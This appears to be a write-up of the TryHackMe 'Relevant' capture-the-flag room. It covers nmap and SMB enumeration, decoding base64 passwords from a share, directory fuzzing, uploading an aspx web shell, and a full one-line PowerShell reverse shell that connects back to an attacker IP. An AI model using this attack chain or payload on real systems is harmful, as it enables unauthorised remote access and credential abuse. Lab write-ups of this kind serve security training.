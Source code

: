 # Revelant

![image](https://user-images.githubusercontent.com/5285547/129174199-a0b07f6d-f4bf-4392-9ac2-cbde55554e84.png)

Room link: https://tryhackme.com/room/relevant

## Enum 

### Nmap 

```
nmap -Pn -v 10.10.127.215

PORT      STATE SERVICE
80/tcp    open  http
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
445/tcp   open  microsoft-ds
3389/tcp  open  ms-wbt-server
49663/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown

nmap -Pn -v -p80,135,139,445,3389,49663,49667,49669 -sCV 10.10.127.215

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2021-08-12T09:53:48+00:00
| ssl-cert: Subject: commonName=Relevant
| Issuer: commonName=Relevant
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2021-08-11T09:33:28
| Not valid after:  2022-02-10T09:33:28
| MD5:   f94f cb19 c957 e463 6a5a dc04 f356 0d18
|_SHA-1: 61a7 eb4a b3e7 72cf 6619 234f 2cd8 b2fd a709 7148
|_ssl-date: 2021-08-12T09:54:22+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m50s, median: 0s
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-08-12T02:53:43-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T09:53:43
|_  start_date: 2021-08-12T09:34:06
```

Nmap results

We can see from the results a the domain name is "Relevant", their are web portals on port 80,49663 (Microsoft-IIS/10.0 servers).  
This shows SMB is open, let's look into the SMB first. 

### SMB

```
$ smbclient -L 10.10.127.215                
Enter WORKGROUP\ac1d's password: 

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        nt4wrksv        Disk      
SMB1 disabled -- no workgroup available
```

Connecting we get a file called passwords.txt

![image](https://user-images.githubusercontent.com/5285547/129176481-a8ae0710-f356-49c2-b0e2-18645e6b6d49.png)

passwords.txt

```
$ cat passwords.txt     
[User Passwords - Encoded]
Qm9iIC0gIVBAJCRXMHJEITEyMw==
QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk 
```

Decoded

```
Bob:!P@$$W0rD!123
Bill:Juw4nnaM4n420696969!$$$
```

Trying psexec shows we have working creds for bob but not bill

![image](https://user-images.githubusercontent.com/5285547/129179521-7337874d-d25d-4905-8eb6-c30bb1d8061a.png)

![image](https://user-images.githubusercontent.com/5285547/129179581-59ddec12-1498-4cf0-9b59-53b232b8d73d.png)


At this point I got a bit stuck so decided to enum some more, I started on port 80 but didnt find anything.  
Then moved to port 49663
 
```
ffuf -u http://10.10.204.235:49663/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -fc 403 -ic 

nt4wrksv                [Status: 301, Size: 159, Words: 9, Lines: 2]

#Remembering the file on the SMB share, I checked for it. 
http://10.10.204.235:49663/ntw4wrksv/passwords.txt
```

We have READ/WRITE access to the smb share so I tested a file upload which worked. 

![image](https://user-images.githubusercontent.com/5285547/129181840-bdaac284-f23e-42d8-abd6-5e383cf76e4e.png)

![image](https://user-images.githubusercontent.com/5285547/129181810-872aec0e-3db2-4211-ae3d-4a430c14dfe1.png)

Checking a few directorys we can find the webupload folder. 

![image](https://user-images.githubusercontent.com/5285547/129193912-7667cb4c-92d3-4936-894d-a50f19c81eee.png)

I also uploaded a rev.exe (go lang reverse shell to test and play with) 

![image](https://user-images.githubusercontent.com/5285547/129194080-b953b03e-ebfd-4f82-8120-c7a4ef0ddfbf.png)


Testing a meterpreter reverse shell (.exe) failed. So I tested a few more payloads until .aspx worked.

cmdasp.aspx shell located on kali /usr/share/webshells/aspx/

![image](https://user-images.githubusercontent.com/5285547/129187032-0f138d8c-da37-4928-8cbc-17ef57ad4022.png)

Using a powershell payload I get a reverse shell. 

```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.8.153.120",8888);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```


